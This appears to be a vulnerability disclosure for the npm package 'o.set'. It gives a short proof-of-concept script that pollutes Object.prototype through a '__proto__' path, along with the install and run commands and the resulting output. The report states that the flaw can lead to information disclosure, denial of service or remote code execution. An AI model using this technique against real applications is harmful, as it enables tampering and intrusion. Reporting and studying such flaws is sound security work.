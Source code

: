 # Description

`o.set` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var o = require("o.set")
var obj = {};
console.log("Before: " + {}.polluted)
o(obj, "__proto__.polluted", true)
console.log("After: " + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i o.set # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.